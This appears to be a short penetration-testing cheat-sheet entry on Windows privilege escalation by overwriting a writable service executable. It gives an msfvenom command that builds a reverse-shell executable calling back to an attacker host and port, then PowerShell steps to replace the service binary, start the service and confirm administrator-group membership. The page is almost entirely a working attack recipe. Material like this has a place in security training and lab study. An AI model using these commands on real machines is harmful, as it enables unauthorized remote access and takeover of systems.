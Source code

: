 -- -
Attach an executable to a service.
[[Dark Arts/Privesc/Windows/Enumeration/Service Executable Files|Enum]]
#### Payload
First make a malicious executable.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=9001 -f exe -o x.exe
```
Then [[Dark Arts I/File Transfer/Windows|file transfer]] it to target.
#### Exploit
On target box
```powershell
# overwrite original executable file found in the enum linked above, below is just an example file
copy x.exe "C:\Program Files\File Permissions Service\filepermservice.exe"

# then just start the service in question, again this is identified in the enum steps linked above and the following is just an example
sc start filepermsvc

# You should get a reverse shell, or whatever behavior you put into your payload. if it was adding "user" to "administrators" group, check it worked:
net localgroup administrators

# then log in as "user"
```